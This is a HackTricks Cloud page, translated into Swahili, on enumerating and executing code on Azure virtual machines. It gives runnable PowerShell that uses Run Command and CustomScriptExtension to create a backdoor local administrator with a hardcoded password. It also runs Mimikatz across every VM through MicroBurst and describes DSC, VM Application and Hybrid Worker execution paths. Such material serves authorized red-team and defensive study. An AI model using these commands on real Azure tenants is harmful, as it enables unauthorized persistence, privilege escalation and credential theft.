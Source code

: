 # Az - Mashine za Virtuali & Mtandao

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Taarifa Msingi

[Kutoka kwa nyaraka:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Mashine za virtuali za Azure ni moja ya aina kadhaa za [rasilmali za kompyuta zinazopatikana kwa mahitaji, zenye uwezo wa kupanuliwa](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) ambazo Azure inatoa. Kawaida, unachagua mashine ya virtuali unapohitaji udhibiti zaidi juu ya mazingira ya kompyuta kuliko chaguo zingine zinavyotoa. Kifungu hiki kinakupa taarifa kuhusu mambo unayopaswa kuzingatia kabla ya kuunda mashine ya virtuali, jinsi ya kuunda, na jinsi ya kuimudu.

## Taarifa za Mtandao wa Azure

Mtandao wa Azure una **vitengo tofauti na njia za kuwezesha usanidi wake.** Unaweza kupata maelezo **mfupi,** **mifano** na **amri za uorodheshaji** za vitengo tofauti vya mtandao wa Azure katika:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** inatoa suluhisho salama, lililosimamiwa kikamilifu la ufikiaji wa RDP (Itifaki ya Desktop ya Mbali) na SSH (Shell Salama) kupitia SSL kupitia portal ya Azure. Imeunganishwa ndani ya Mtandao wa Virtuali wa Azure, ikiruhusu uunganisho wa RDP na SSH kwa VMs kutumia IPs za kibinafsi, kuepuka haja ya IPs za umma. Hii inafanya kuwa mbadala salama zaidi, rahisi zaidi kwa njia za jadi zinazohusisha ugawaji wa IPs za umma na usanidi wa sheria za NSG kwa ufikiaji wa VM. Watengenezaji na wafanyakazi wa IT wanaweza kufikia VMs kwa usalama kupitia portal ya Azure kwa kutumia vivinjari vyao vya wavuti, kupunguza mchakato kwa mazingira ya maendeleo na majaribio.

Kutaja orodha ya Wenyeweji wote wa Azure Bastion katika usajili wako, unaweza kutumia amri ifuatayo:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Kuchunguza VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Kuendesha amri kwenye VM**

### **AAD Ingia kwenye VM**

Inawezekana kuruhusu ufikiaji kwa watumiaji waliothibitishwa kupitia AzureAD. Kwa mfano, kujaribu kupata **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (ni muhimu **kutumia barua pepe** na azurecorp iliyotumiwa wakati wa kujaribu kuingia) unaweza kupata kosa kama hili:
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Fuata **maagizo hayo** kwa kwenda [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) na kuweka nambari, tumia barua pepe na nenosiri kama sifa na utaweza kuunganisha kupitia SSH (ikiwa mtumiaji ana idhini ya kutosha kufanya hivyo: jukumu la `Kuingia kama Msimamizi wa Mashine Halisi` au `Kuingia kama Mtumiaji wa Mashine Halisi`).

### **Amri ya Kutekeleza**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Endesha Ugani wa Script ya Kipekee**

Vifaa vya ziada vya mashine halisi (VM) vya Azure ni **programu ndogo** zinazotoa usanidi baada ya kupeleka na kazi za otomatiki kwenye **VM za Azure**. Kwa mfano, ikiwa mashine halisi inahitaji usakinishaji wa programu, ulinzi wa antivirus, au uwezo wa kuendesha script ndani yake, unaweza kutumia ugani wa VM.

Kwa hivyo, ikiwa una ufikiaji wa kuandika, unaweza kutekeleza nambari ya kupindukia:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### Hali ya Matarajio ya Usanidi (DSC)

Hali ya Matarajio ya Usanidi (DSC) ni chombo cha PowerShell kinachofanana na Ansible, kinachotumika kuanzisha mwenyeji kupitia nambari. DSC inashirikiana na Azure, kuruhusu kupakia faili maalum za usanidi. Faili hizi lazima zizingatie muundo wa kisarufi. Kwa kipekee, kifaa cha DSC katika Azure kinaweza kutekeleza amri kutoka kwenye faili zinazokidhi vigezo fulani vya muundo, hata kama muundo si sahihi kwa viwango vya DSC, kama inavyoonyeshwa kwenye mchoro uliotolewa.

Utekelezaji wa amri hizi unarahisishwa na kazi ya [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) katika Az PowerShell. Mahitaji ni pamoja na faili ya **.PS1** yenye kazi iliyofafanuliwa na faili lazima zipwe katika faili ya **.zip**. Hata kama muundo huenda usiwe sahihi kwa DSC, nambari bado itatekelezwa. Hata hivyo, kifaa kitaweka hali ya utekelezaji kama "kushindwa," na hakutakuwa na matokeo yoyote kutoka kwa amri kutokana na hali hiyo kubadilishwa na ujumbe wa kushindwa.

### Vifafanuzi vya Maombi ya VM

Vifafanuzi vya Maombi ya VM huruhusu kupeleka tena maombi vilivyowekewa toleo kwenye Azure VM. Rasilimali hii inasaidia kupeleka na kusasisha maombi kote kwenye VMs. Kuweka hii, hatua kadhaa zinahitajika, zikiingiza amri kama **`New-AzGalleryApplication`** na **`New-AzGalleryApplicationVersion`** katika Az PowerShell.

Utekelezaji wa maombi au amri kupitia njia hii unajumuisha **"VMAppExtension"**, ambayo inasakinishwa moja kwa moja wakati maombi yanatumika kwa VM. Kifaa hicho kinapata faili kutoka kwenye URI iliyotajwa na kuiita kwa jina sawa na maombi, bila kuwa na kifupisho. Ili kutekeleza faili kwa usahihi, uga wa "ManageActions" katika wito wa API ya REST lazima uwe umewekwa kurekebisha jina la faili na kifupisho sahihi. Kuweka njia hii, mara baada ya kukamilika, itafanana na muundo ulioonyeshwa kwenye mchoro uliotolewa.

Hata hivyo, njia hii ya utekelezaji ni polepole kiasi, ikichukua dakika 3-4 kutekeleza maombi au amri. Faili zinazohusiana na mchakato huu hufungwa katika saraka maalum (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` kwa nakala ya maombi na `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` kwa hali ya utekelezaji).

Mbinu zote zinatoa njia za kipekee za kutekeleza amri na kupeleka maombi katika mazingira ya Azure, kila moja ikiwa na mahitaji yake, hatua, na mambo ya kuzingatia.

### Vikundi vya Wafanyakazi wa Hali ya Hewa (HWGs) katika Azure

[**Vikundi vya Wafanyakazi wa Hali ya Hewa (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) ni kipengele katika Azure kinachoruhusu Runbooks, kilichowekwa katika Akaunti ya Uendeshaji, kutekelezwa kwenye Mashine halisi ya Virtual ya Azure (VM) ambayo ni sehemu ya HWG iliyotengwa. Utekelezaji huu unaruhusiwa kupitia kifaa kilichosakinishwa kwenye VM, ambacho hupakia nambari ya Runbook kwenye VM. Jambo muhimu katika mchakato huu ni kwamba vyeti halisi sio jambo linaloathiri utekelezaji kwa sababu nambari inatekelezwa na mamlaka ya juu, hasa kama **SYSTEM** au root, kama inavyoonyeshwa kwenye mchoro uliotolewa.

Maelezo muhimu kwa wale wanaotumia VM za Windows 10 ni lazima kufafanua toleo la PowerShell kwa Runbook. Inapaswa kuwekwa kutekelezwa kama Toleo la PowerShell 5.1 badala ya 7.1. Mahitaji haya yanatokana na ukweli kwamba PowerShell 7.1 haikusanikishwa kwa chaguo-msingi kwenye VM hizi, ikisababisha kushindwa kwa utekelezaji wa script ikiwa toleo la 7.1 limetajwa.

Kipengele hiki cha Azure kinatoa njia imara ya kiotomatiki na kusimamia kazi kote kwenye mazingira ya hali ya hewa, kuruhusu usimamizi wa kati na utekelezaji wa kazi kwenye VM za Azure.


## Marejeo

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIKAKATI YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
